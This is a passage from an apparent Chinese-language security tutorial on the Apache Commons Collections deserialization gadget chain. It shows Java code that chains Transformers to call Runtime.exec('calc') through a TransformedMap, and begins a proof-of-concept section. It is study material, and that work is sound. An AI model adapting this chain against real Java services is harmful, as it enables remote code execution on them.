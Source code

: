   ```java
  Transformer[] transformers = new Transformer[]{
                  //直接返回当前环境的Runtime对象
                  new ConstantTransformer(Runtime.getRuntime()),
  
                  //第⼀个参数是待执⾏的⽅法名（哪个类的方法名？前一个回调函数返回的结果即ConstantTransformer返回的对象）
                  //第⼆个参数是这个函数的参数列表的参数类型
                  //第三个参数是传给这个函数的参数列表
                  new InvokerTransformer(
                          "exec",
                          new Class[]{String.class},
                          new Object[]{"calc"}
                          ),
          };
  //将内部的多个Transformer串在⼀起，前⼀个回调返回的结果，作为后⼀个回调的参数传⼊
  Transformer transformerChain = new ChainedTransformer(transformers);
  ```

- 修饰Map

  > TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map**在添加新的元素时，将可以执⾏⼀个回调**。

  ```java
  //修饰Map
  Map innerMap = new HashMap();
  Map outerMap = TransformedMap.decorate(
      innerMap,
      null,
      transformerChain
  );
  ```

- 触发回调最后执行Runtime对象的exec方法

  ```java
  //触发回调
  outerMap.put("test", "xxxx");     
  ```

**POC**

通过上面的Demo我们可知链子的尾巴在`InvokerTransformer`的`transfrom`方法,往回找

![image-20220114111551082](../images/db55d9439c95d5cda0646b0be1180bfa.png)

![image-20230923165556436](../images/image-20230923165556436.png)

查看 TranformedMap 的构造方法，因为是 protected 属性无法调用，寻找到一个静态方法调用了构造方法

![image-20220114130017028](../images/98896b69dec504c41a332c33936d02ef.png)

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

HashMap<Object,Object> map = new HashMap<>();
//使用静态方法decorate来调用构造函数
TransformedMap.decorate(map, null, invokerTransformer);
```
